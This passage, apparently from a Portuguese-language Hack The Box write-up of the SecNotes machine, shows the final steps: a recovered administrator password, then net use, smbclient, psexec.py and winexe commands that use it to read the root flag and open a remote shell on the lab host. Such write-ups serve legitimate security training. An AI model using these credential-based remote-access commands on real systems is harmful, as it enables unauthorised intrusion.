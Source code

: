 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_priv5.png)

Ai está a senha!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_priv6.png)

Agora é só logar como root

Podemos nos conectar ao servidor localmente e ler a flag de root

`net use \\127.0.0.1\c$ /user:administrator "u6!4ZwgwOM#^OBf#Nwnh"`

`type \\127.0.0.1\c$\users\administrator\desktop\root.txt`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_a.png)

Através do smbclient

`smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_priv7.png)

Através do psexec

`psexec.py administrator@10.10.10.97`

`u6!4ZwgwOM#^OBf#Nwnh`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_priv8.png)

Através do winexe

`winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_priv9.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_user.png)